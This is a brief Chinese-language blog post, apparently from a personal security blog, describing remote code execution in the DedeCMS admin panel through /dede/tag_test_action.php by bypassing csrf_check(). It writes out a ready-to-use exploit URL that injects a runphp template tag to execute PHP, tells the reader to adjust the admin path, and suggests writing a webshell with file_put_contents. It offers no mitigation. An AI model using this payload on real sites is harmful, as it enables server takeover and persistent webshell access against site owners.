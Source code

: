 ```yaml
---
title: "dedecms 后台代码执行"
date: 2018-03-30T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['cms','php']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



该漏洞的触发点为 /dede/tag_test_action.php. 起因是 csrf_check() 的绕过, 导致可执行任意代码.

<!--more-->

## EXP

`/dede/tag_test_action.php?url=a&token=&partcode={dede:field name='source' runphp='yes'}phpinfo();{/dede:field}`

根据情况更改后台路径

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/03/30/1522407172.jpg)

file_put_contents 直接写 webshell